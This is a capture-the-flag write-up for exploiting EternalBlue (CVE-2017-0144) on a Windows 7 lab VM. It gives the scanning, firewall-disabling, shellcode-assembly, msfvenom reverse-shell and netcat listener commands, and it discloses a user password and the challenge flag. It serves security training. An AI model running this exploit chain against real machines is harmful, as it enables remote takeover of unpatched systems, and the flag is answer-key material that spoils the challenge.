 # BlueDoor Writeup

## Challenge Information

Link: https://github.com/sethwhy/BlueDoor/tree/main

Difficulty: 3/5

Category/Categories: Exploitation, Windows

Author(s): Seth Davis
References(s): worawit & strik1r

Description:

```
Can you exploit the EternalBlue vulnerability (CVE-2017-0144) on a Windows 7 system and retrieve the hidden flag? Your goal is to gain administrative privileges and locate the flag.txt file stored in the `C:\Windows\System32` directory.

This challenge simulates a real-world vulnerability and requires you to analyze the system, execute an exploit, and navigate to the restricted file location.

```

Hint(s):

- `Hidden in plain sight, more like plain text!`
- `Hmm System32 huh..`

When you first start the challenge, you are presented with:

A Windows 7 virtual machine vulnerable to EternalBlue (CVE-2017-0144).
A flag hidden in the system, requiring administrative privileges to access.

## Solution

```
1. Environment Setup:
Install and configure Kali Linux in your virtual environment (e.g., VMware, VirtualBox).
Ensure that your IP address matches the subnet of the target machine.

2. Network Scanning:
Use nmap to scan for open ports and detect if the target is vulnerable:
nmap -p 139,445 --script smb-vuln-ms17-010 <target-ip>
Confirm that TCP ports 139 and 445 are open and that the SMB service is vulnerable.
```

![image](https://github.com/user-attachments/assets/0e34d61b-b5d9-4a8d-8557-1efa66c33360)

```
3. Disable Firewalls (on the target)
If possible, run:
netsh advfirewall set allprofiles state off
This ensures no interference during the exploitation process.
```

![image](https://github.com/user-attachments/assets/20b1f218-6bea-4645-9c7d-36cb5286a7cd)

Password for Flag user that isnt the flag: 4770_sethwhy

```
4. Exploit EternalBlue:
Use Metasploit or any other payload generator to create a reverse TCP payload.
Some links for help the way I did it - https://github.com/helviojunior/MS17-010, https://github.com/worawit/MS17-010, https://redteamzone.com/EternalBlue/, https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/

Assemble shellcode & create payload
- nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<VM kali machine ip> LPORT=<listen port i.e 4445> -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
(There are other ways to do this, im giving you one solution)

- Set up a listener on your attacking machine:
nc -lvnp 4445
<sudo lsof -i :4445> will check if the port is being used, you can end the process by running
<sudo fuser -k 4445/tcp>
```

![image](https://github.com/user-attachments/assets/a047336f-6970-4db7-824a-5b9f5cdca0a8)

- Run the command "python eternalblue_exploit7 <target-ip> <any shellcode that works>"
- Deliver the payload to the target and exploit the vulnerability.

![image](https://github.com/user-attachments/assets/678fa158-d826-4a15-bc05-94dcf7e93e7b)

```
5. Gain Administrative Privileges:
Once inside the system, check to see if privileges were escalated.
```

![image](https://github.com/user-attachments/assets/a1b09373-8e51-4873-b03b-ccaf7e21eb81)

```
6. Search for the Flag:
Look for .txt files in the C:\Windows\System32 directory with this command:
dir *.txt /s /b
```

![image](https://github.com/user-attachments/assets/c5bd2e43-70cd-4013-b4e3-3b5820d18d90)

Locate and open the flag.txt file to retrieve its contents.
![image](https://github.com/user-attachments/assets/a6711136-ef4e-4626-8124-1f7964a2752d)

```

Flag: `CTF{4770_sethwhy}`
```
